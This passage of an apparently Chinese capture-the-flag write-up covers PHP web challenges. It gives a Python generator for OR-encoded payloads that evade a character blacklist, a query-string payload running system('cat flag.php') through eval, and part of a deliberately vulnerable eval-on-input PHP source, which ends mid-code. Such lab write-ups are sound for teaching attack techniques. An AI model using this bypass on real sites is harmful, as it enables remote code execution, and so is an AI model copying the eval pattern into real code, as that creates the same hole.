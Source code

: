 ```python
# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

运行结果

```shell
[+] your function：system
[+] your command：ls
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13"|"%60%60");
```

payload:

```shell
//对双引号做了过滤，用单引号替换
//对加减乘除做了过滤，可以1用或替换 0|(xxx)|0  ，当然也可以用三元运算符 1?(xxxx):0

?v1=0&v2=0&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%03%01%14%00%06%0c%01%07%02%10%08%10'|'%60%60%60%20%60%60%60%60%2c%60%60%60')|
```



## web146

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
```